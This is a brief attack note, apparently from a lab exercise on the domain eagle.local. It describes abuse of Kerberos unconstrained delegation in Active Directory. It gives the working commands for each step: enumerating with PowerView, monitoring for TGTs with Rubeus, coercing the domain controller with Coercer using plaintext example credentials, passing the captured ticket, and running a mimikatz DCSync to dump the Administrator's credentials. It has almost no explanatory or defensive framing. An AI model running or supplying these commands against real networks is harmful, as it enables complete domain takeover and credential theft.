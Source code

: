 	Desc:
		Configured server Unconstrained Delegation, capture its TGT by coercing a DC to auth to server.

	Usage:
		Enum with Get-NetComputer - Unconstrained | select samaccountname, imported from powerview.
		
		Listen with rubueos for new logons and extragt TGT:
		Rubeus.exe monitor /interval:1

		Use attacking vm to coerce the DC to the attacking unconstrained server with Coercer:
		
		Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local

		The server listening with Rubeus catches the TGT

		We then pass the ticket and inject in memory by acting as the DC and perform DCsync afterwards:
			.\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...

		DCSync with mimi:
			.\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
